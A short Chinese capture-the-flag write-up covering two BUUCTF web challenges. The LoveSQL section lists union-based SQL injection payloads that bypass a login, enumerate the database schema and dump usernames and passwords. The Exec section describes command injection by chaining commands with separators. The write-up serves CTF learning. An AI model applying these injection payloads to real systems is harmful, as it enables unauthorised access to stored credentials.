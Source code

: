 

## 0x8.[极客大挑战 2019]LoveSQL

不知道为啥，这里只能%23，不能#和--+

```
?username=admin'%23&password=1

?username=admin' order by 3%23&password=1

?username=111' union select 1,2,3%23&password=1
是2和3

?username=111' union select 1,database(),3%23&password=1
数据库名：geek

?username=111' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='geek'%23&password=1
得到可疑表：l0ve1ysq1

?username=111' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='geek' and table_name='l0ve1ysq1'%23&password=1
得到字段id,username,password

?username=111' union select 1,group_concat(id,username,password),3 from geek.l0ve1ysq1%23&password=1
或者：
?username=111' union select id,username,password from geek.l0ve1ysq1 limit 0,1%23&password=1
一个一个查
```

## 0x9.[ACTF2020 新生赛]Exec

就是连接命令，可以管道符||，也可以分号，或者&这个符号。

但是经过测试，之后分号可以多个命令一起执行（在这道题）

![image-20210415165001140](BUU-WEB-0x1-0xF/image-20210415165001140.png)
